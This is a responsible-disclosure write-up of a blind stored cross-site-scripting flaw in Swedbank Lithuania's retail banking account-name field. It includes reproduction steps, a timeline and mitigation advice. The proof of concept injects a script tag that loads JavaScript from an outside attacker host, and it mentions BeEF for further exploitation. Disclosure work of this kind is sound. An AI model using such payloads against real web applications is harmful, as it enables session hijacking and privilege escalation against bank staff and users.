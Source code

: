 SWEDBANK: Blind Stored Cross-Site-Scripting in Retail Banking
=============================================================

Description
-----------
A regular authenticated internet banking user has an option to set a bank’s account name to anything arbitrary with a char limit of 35. The internet banking application hosted at https://www.swedbank.lt/private is vulnerable to a blind Stored Cross-Site-Scripting attack in the account's name field. 
A malicious actor can set a specially crafted payload and store it for a blind attack on the bank's staff. It is possible that other system’s users (banking personnel, call centre stuff etc.) who work regularly with retail customers could “find” this malicious payload while observing a specific account through routine tasks or on demand calls. This would lead to compromise other users and elevate privileges for an attacker.

Proof-of-Concept
----------------
Authenticate to the web application at:
https://www.swedbank.lt/private

Then open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases
`pageId = private.home.important.aliases`

Then change any account name to this payload:
```
A<script src=“//p0wn.eu”></script>
```
And save the user input form.

*Note* To make an isolated check from external network a simple hint can be used:
Point any short domain with a name like `p0wn.eu` and write an IP resolution into the system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).
Desktop (browser):
![Stored XSS attack](https://i.imgur.com/QRLirjN.png)

Mobile:
![Stored XSS attack on mobile app](https://i.imgur.com/4bezvvo.jpeg)

The issue with unfiltered user input and fail to sanitise output in the web content can lead to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) who work regularly with retail clients.

Payload of the server's `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 PUBLIC RELEASE
```
